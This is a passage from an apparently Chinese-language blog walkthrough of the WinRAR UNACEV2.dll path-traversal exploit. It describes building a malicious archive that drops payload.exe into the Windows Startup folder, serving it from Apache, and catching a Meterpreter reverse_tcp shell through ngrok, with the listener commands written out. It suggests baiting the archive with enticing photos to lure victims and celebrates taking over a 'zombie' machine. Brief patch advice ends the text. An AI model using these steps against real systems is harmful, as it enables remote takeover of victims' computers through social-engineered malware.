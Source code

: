 ![][24]

当然，如果你的环境中能够执行`py -3`这条指令就不用改了

![][25]

已经成功生成了恶意的压缩包，这时候往里面丢一些照片视频(你懂的)什么的就变成了诱人的压缩包了。

将生成的压缩文件复制到 www 目录下，开启一个 Apache2 服务

![][26]

### 靶机上线及监听

Windows7 靶机下载解压这个恶意压缩包：

![][27]

发现在 win7 的启动目录：

```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

出现了我们的恶意 payload.exe：

![][28]

Metasploit 启动远程监听主机上线请求:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost Kali的ip
set lport 前面申请ngrok时设置的内网端口
run
```

![][29]

- 确保 ngrok 后台在运行，然后重启 Win7，在 kali 中等待一会就能看到 win7 上线了：

![][30]

进入 shell 中即可操作 win7：

一台完美的肉鸡就控制上了，然后接下来就是吃鸡了！！！

# 漏洞修复

- 升级到 5.70.2.0 版本

- 删除其安装目录下的 UNACEV2.dll 文件

- 收到敏感性压缩包要小心，切勿被好奇心害了！


[1]: http://www.winrar.com.cn/download.htm
[2]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_213636.png
[3]: https://research.checkpoint.com/extracting-code-execution-from-winrar/
[4]: https://mp.weixin.qq.com/s/Hz-uN9VEejYN6IHFBtUSRQ
[5]: https://www.freebuf.com/column/196839.html
[6]: https://www.4hou.com/vulnerable/16314.html
[7]: https://www.freebuf.com/column/196567.html
[8]: https://www.freebuf.com/column/196660.html
[9]: https://www.freebuf.com/articles/network/197025.html
[10]: https://mp.weixin.qq.com/s/kizj0Fl1Jf2I990Nazu2QQ
[11]: https://mp.weixin.qq.com/s/EZudaOh8X8l0Y0vCFff9gw
[12]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_224132.png
[13]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_224230.png
[14]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_225614.png
[15]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_230140.png
[16]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_230806.png
[17]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_231826.png
[18]: https://www.ngrok.cc/download.html
[19]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_232437.png
[20]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_232655.png
[21]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190315_234417.png
[22]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_000516.png
[23]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_001138.png
[24]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_002814.png
[25]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_002909.png
[26]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_003216.png
[27]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_003702.png
[28]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_003811.png
[29]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_004704.png
[30]: https://img.soapffz.com/archives_img/2019/03/15/archives_20190316_131815.png
